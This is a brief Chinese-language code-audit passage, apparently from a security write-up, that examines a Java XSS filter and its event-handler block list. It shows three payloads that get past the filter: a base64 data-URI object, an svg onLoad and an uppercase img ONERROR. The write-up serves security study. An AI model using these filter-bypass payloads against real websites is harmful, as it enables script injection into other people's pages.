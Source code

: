 ![image.png](img/15.png)
看看过滤的逻辑
首先`<style></style>``<script></script>``<script`尖括号转换为`&lt;``eval`替换为`空`，`javascript`关键词也替换为空
然后是黑名单

```java
{ "onmouseover", "onmouseout", "onmousedown",
                "onmouseup", "onmousemove", "onclick", "ondblclick",
                "onkeypress", "onkeydown", "onkeyup", "ondragstart",
                "onerrorupdate", "onhelp", "onreadystatechange", "onrowenter",
                "onrowexit", "onselectstart", "onload", "onunload",
                "onbeforeunload", "onblur", "onerror", "onfocus", "onresize",
                "onscroll", "oncontextmenu", "alert" }
```
使用了一个for循环去匹配黑名单中的关键词，成功匹配在关键词前加下划线(`_`)
然后再返回value值
可以成功绕过的标太多了。这里举一个例子
```java
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgidGVzdCIpOzwvc2NyaXB0Pg==">
<svg/onLoad=confirm(1)>
<img src="x" ONERROR=confirm(0)>
```